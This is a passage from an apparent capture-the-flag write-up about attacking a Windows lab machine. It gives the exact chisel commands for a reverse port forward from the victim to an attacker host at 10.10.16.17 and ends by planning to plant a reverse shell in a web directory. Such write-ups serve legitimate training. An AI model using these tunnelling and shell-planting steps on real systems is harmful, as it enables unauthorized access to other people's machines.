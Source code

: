 ![Failed curl](curl_failed.png)

and when we `curl` it in the victim machine itself - 

![curl on Windows](Images/curl_on_windows.png)

we get a HTTP error back which means this port really is running a HTTP service.


# Port Forwarding
We can't access the web server directly from our machine or on the victim machine itself, we need to do some port forwarding. I like to use [chisel](https://github.com/jpillora/chisel) whenever `SSH` port forwarding is not an option. In this case, we'll need another shell as *C.Bum* since we'll be using one of them for running `chisel`.
```bash
chisel server --reverse --port 11111   # On Attacker machine
```

```cmd
chisel.exe cilent 10.10.16.17:11111 R:8000:0.0.0.0:8000
```

![Running chisel on Windows](Images/running_chisel.png)

This will connect the `chisel` server on our `Kali` machine and it'll allow us to browse port 8000 on our localhost. Now, any traffic we send to localhost:8000 will be redirected towards port 8000 on the victim machine. 


# Getting Shell as *defaultapppool*
When we browse `http://127.0.0.1:8000` on our browser, we see another flight ticket service with no functions again. There's `contact.html` but it also doesn't work. But since we already knew the directory ( `C:\inetpub\development` ), we could write a reverse shell inside that directory and access it via our browser. 
